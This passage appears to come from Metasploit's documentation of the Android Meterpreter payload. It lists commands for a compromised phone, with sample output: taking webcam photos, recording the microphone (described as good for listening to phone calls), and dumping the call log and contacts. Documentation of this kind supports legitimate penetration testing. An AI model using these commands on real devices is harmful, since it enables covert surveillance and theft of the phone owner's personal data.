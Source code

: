 ```
meterpreter > sysinfo
Computer    : localhost
OS          : Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
Meterpreter : java/android
```

**webcam_list**

The ```webcam_list``` command shows a list of webcams you could use for the ```webcam_snap```
command. Example:

```
meterpreter > webcam_list
1: Back Camera
2: Front Camera
```

**webcam_snap**

The ```webcam_snap``` command takes a picture from the device. You will have to use the
```webcam_list``` command to figure out which camera to use. Example:

```
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /Users/user/rapid7/msf/uFWJXeQt.jpeg
```

**record_mic**

The ```record_mic``` command records audio. Good for listening to a phone conversation, as well as
other uses. Example:

```
meterpreter > record_mic -d 20
[*] Starting...
[*] Stopped
Audio saved to: /Users/user/rapid7/msf/YAUtubCR.wav
```

**activity_start**

The ```activity_start``` command is an execute command by starting an Android activity from a URI
string.

**check_root**

The ```check_root``` command detects whether your payload is running as root or not. Example:

```
meterpreter > check_root
[*] Device is not rooted
```

**dump_calllog**

The ```dump_calllog``` command retrieves the call log from the Android device.

**dump_contacts**

```
meterpreter > dump_contacts
[*] Fetching 5 contacts into list
[*] Contacts list saved to: contacts_dump_20160308155744.txt
```
```